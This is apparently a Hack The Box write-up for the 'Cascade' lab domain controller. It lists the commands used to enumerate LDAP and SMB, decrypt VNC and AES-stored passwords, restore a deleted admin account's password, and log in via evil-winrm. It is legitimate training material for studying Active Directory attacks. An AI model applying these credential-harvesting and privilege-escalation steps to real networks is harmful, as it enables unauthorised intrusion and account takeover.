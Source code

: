 ```yaml
---
layout: post
title: Cascade
description: Cascade is a medium difficulty Windows machine configured as a Domain Controller where LDAP anonymous binds are enabled.
categories: [writeups]
tags: [HTB, Active Directory, Cryptographic Failure]
image:
  path: /assets/cascade/Cascade.png
---
```


## **Summary**

`r.thompson`'s password was obtained using an ldap search, then and encrypted password for `s.smith` was found in a SMB share `Data`. In another share `Audit$` there was an sqlite database file containing an AES encrypted password for the user `ArkSvc`, the key and IV to decrypt this password were found after decompiling `CascAudit.exe` and `CascCrypto.dll`.

`ArkSvc` was able to access deleted objects, `TempAdmin`'s password was disclosed which was the same used by the `Administrator`. 

## **Enum**

### **nmap**

Initial port scan reveals the presence of multiple open ports like 88, 445,389... indicating that we are dealing with a domain controller in the domain `cascade.local`

```sh
sudo nmap 10.10.10.182 -p- -sS -T4 -oN nmap/ss-all.nmap
ports=$(cat nmap/ss-all.nmap | grep open | cut -d '/' -f 1 | tr '\n' ',')
nmap 10.10.10.182 -p $ports -sV -sC -oN nmap/svc.nmap -Pn
```

![](/assets/cascade/000.png)

### **ldap**

An LDAP search showed a list of users, we choose to include the distinguished name of only one user because we're gonna be using it next.

```sh
$ ldapsearch -x -H ldap://10.10.10.182 -b "dc=cascade,dc=local" | grep 'dn' | grep -i 'users'
...
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
...
```

Using this dn we perfomed another ldap scan and we found the credentials for the user `r.thompson`.

```sh
ldapsearch -x -H ldap://cascade.local/ -b "CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local" "cn" "sAMAccountName" "cascadeLegacyPwd"
```

![](/assets/cascade/002.png)

The password was base64 encoded, so we decoded it.

```
$ echo 'clk0bjVldmE=' | base64 -d
rY4n5eva
```

### **smb**

`r.thompson` had read access over `Data` share

```sh
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares
```

![](/assets/cascade/003.png)

We accessed the share, and browsed to the `IT` directory where we found a registry file called `VNC Install.reg` inside `s.smith` directory.

```sh
smbclient.py r.thompson:rY4n5eva@cascade.local
```

![](/assets/cascade/004.png)

In this registry file we found a password in an unusual format.

```smbclient
# cat IT/Temp/s.smith/VNC Install.reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
...
```
With the help of [VNCDecrypt](https://github.com/billchaison/VNCDecrypt) we were able to decrypt it: `sT333ve2`

```sh
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

![](/assets/cascade/005.png)

We used the directory name (`s.smith`) as a username with the password we decrypted to access `Audit$` share.

```sh
smbclient.py s.smith:sT333ve2@cascade.local
```

![](/assets/cascade/008.png)

Inside `DB` directory we found an sqlite3 database `Audit.db` and downloaded it.

![](/assets/cascade/009.png)

We then opened it with `sqlitebrowser` and got two tables:

DeletedUserAudit:

![](/assets/cascade/010.png)

ldap:

![](/assets/cascade/011.png)

On the ldap table there was a password for `ArkSvc` user: `BQO5l5Kj9MdErXx6Q6AGOw==`, but it seemed to be encrypted.

From the `$Audit` share, we downloaded `CascAudit.exe` and `CascCrypto.dll` to a windows machine and decompiled them using [dotPeek](https://www.jetbrains.com/decompiler/).

![](/assets/cascade/012.png)

In `CascAudit/CascAudiot/MainModule` we found the key used for encryption: `c4scadek3y654321`.

![](/assets/cascade/013.png)

And the Initialization Vector(IV) was found in `CascCrypto/CascCrypto/Crypto`: `1tdyjCbY1Ix49842`.

We also noted that the encryption algorithm used is `AES-128`.

![](/assets/cascade/014.png)

Knowing the algorithm used, the key and the IV we decrypted the password using `cyberchef`: 

```
w3lc0meFr31nd
```

![](/assets/cascade/015.png)

## **Foothold**

### **s.smith**

`s.smith` and `Arksvc` are members of `Remote Management Users` group, which allowed them to access the machine using `winrm`.

We first logged in as `s.smith` to retreive th first flag.

```sh
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```

![](/assets/cascade/006.png)

### **ArkSvc**

Then as `ArkSvc`, as `s.smith` gave us nothing to escalate our privileges.

```sh
evil-winrm -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd
```

![](/assets/cascade/016.png)

## **PrivEsc**

`ArkSvc` is a member of `AD Recycle Bin` group, which gives him the ability to view deleted objects.

```
whoami /groups
```

![](/assets/cascade/017.png)

In `Data` share there was a note in a html file `IT\Email Archives\Meeting_Notes_June_2018.html` stating that a user `TempAdmin` which uses the same password as the domain administrator was deleted at the end of 2018.

![](/assets/cascade/018.png)

We got a base64 encoded password: `YmFDVDNyMWFOMDBkbGVz` from the deleted objects.

```powershell
Get-ADObject -filter 'isDeleted -eq $true -and samaccountname -eq "TempAdmin"' -includeDeletedObjects -Properties *
```

![](/assets/cascade/019.png)

Decoded it

```sh
$ base64 -d <<< 'YmFDVDNyMWFOMDBkbGVz'
baCT3r1aN00dles
```

And used it to access the machine as `Administrator` using `evil-winrm`.

```sh
evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles
```

![](/assets/cascade/020.png)
